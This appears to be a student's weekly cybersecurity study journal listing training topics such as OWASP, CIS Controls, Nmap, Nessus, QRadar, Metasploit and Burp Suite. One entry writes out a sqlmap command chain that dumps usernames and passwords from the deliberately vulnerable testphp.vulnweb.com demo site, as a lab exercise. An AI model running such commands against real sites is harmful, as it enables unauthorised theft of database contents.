 # day-day Journal

--------------------------Week-1--------------------------
<22 August> 10 Hackers and their accomplishments.
<23 August> what vulnerabilities are available for a perticular port.
<24 August> OWASP top 5 vulnerabilities and test it on a website.
<25 August> How Servers Work understanding web app attack what is a attack? Plot vulnerabilities other than OWASP top 10

<26-27 Aug> Exploit OWASP top 10
----------------------------------------------------
--------------------------Week-2--------------------------
<28 August> 10 web Server Attacks
<29 August> 
Inventory and Control of Hardware Assets
Inventory and Control of Software Assets
Continuous Vulnerability Management
Controlled Use of Administrative Privileges
Secure Configuration for Hardware and Software on Mobile Devices, Laptops, Workstations and Servers
Maintenance, Monitoring and Analysis of Audit Logs Foundational
Email and Web Browser Protections
Malware Defenses
Limitation and Control of Network Ports, Protocols, and Services
Data Recovery Capabilities
Secure Configuration for Network Devices, such as Firewalls, Routers and Switches
Boundary Defense
Data Protection
Controlled Access Based on the Need to Know
Wireless Access Control
Account Monitoring and Control Organizational
Implement a Security Awareness and Training Program
Application Software Security
Incident Response and Management
Penetration Tests and Red Team Exercises
<30 August> Understanding CIS Policy version 7and write about them

<31 August> OFF DAY

<1 September> Passive Reconnisence of a website without pinging it. What is OSNIT framework?

--<2-3 September> Use 10 tools on kali available in the menu section.
----------------------------------------------------
--------------------------Week-3--------------------------
<4 September> Scan any website to check the vulnerabilities in the website using nessus and make a report on it
<5 September> Explore cheatsheet commands(Go through Nmap) and memorize the port nos

<6 September> OFF DAY

* <7 September>
<8 September> sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -dbs | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart --tables | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users --columns | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C uname --dump
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C pass --dump  [vulweb using sqlmap]


*--<9-10 September> 
----------------------------------------------------
--------------------------Week-4--------------------------
<11 September> Doccumntation on What is Syn and SEIM.
<12 September> Doccumentation on What is wincollect and StandAlone winollect
<13 September> pick 4-5 logs from ibm qradar and doccument business impact. What is Local Security Policy in windows.
<14 September> 3 Vulnerabilities exploitaion on metasploit
<15 September> Doccumentation on burpsuit
----------------------------------------------------
